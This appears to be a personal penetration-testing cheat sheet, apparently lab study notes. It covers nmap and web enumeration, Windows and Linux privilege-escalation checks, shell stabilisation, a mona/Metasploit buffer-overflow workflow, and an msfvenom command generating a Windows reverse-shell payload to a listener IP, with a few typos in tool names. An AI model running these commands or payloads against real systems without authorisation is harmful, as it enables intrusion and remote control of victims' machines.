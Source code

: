 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

## Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

## Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
  - sudo nmap -p- -Pn -sS TARGET -oA AllPort
  - sudo nmap -p -Pn -A 10.10.43.161 -oA Services
  - -v Version
  - -A os, in-build scripts
  - -sC default scripts

- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

## Login
- brute force: hydra
- sqlmap

## Windows
- /priv
- systeminfo
- smb read/write
  - --script=smb-enum-shares.nse,smb-enum-users.nse
- mount:
  - --script=nfs-ls,nfs-statfs,nfs-showmount
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%
- Unquoted services:
  - wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows
- Permissions:
  - icalcs
- eventvwr
  
## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null : SUID
- psexec.py
- LinEnum.sh + LinPeas
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
- Groups: LXD????
- crontab
  
- Shell stabilize
  - python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - python -c 'import pty; pty.spawn("/bin/bash")'
  - export TERM=xterm

## Upload files
### Windows
### Linux


# Buffer overflow
- Upload file on Immunity Debugger (windows)
  
```
# Define working folder
!mona config -set workingfolder c:\Users\admin\Desktop\patota

# Fuzzing
python3 -c 'print("A" * 5000)'

# Generate payload after fuzzing
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l TOTAL

# send created pattern through script
python script.py

# Find Offset with mona
!mona findmsp -distance TOTAL

# Finf offset with metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP
```

- Write BBBB on "retn"

```
while bad_chars
  !mona bytearray -b "\x00" = remove bad chars | !mona bytearray -cpb "\x00" = remove bad chars
  strings.py = without bad chars
  !mona compare -f c:\Users\admin\Desktop\patota\bytearray.bin -a ESP-Address

!mona jmp -r esp -cpb "Badchars"
```

- Copy address and write it backwards
- Add padding: "\x90" * 16
- Shell code msfvenom without bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c
```
## Convert python
dos2unix file
## Pictures
- strings
- exiftool
## Payloads
- msfvenom - reverse -f aspx -o app.aspx
- -e x86/shikata_ga_nai
- windows/shell_reverse_tcp 

### Kerberos
- Enumerate
  - setspn -T medin -Q ​ */* = extract accounts from Service Principal Name

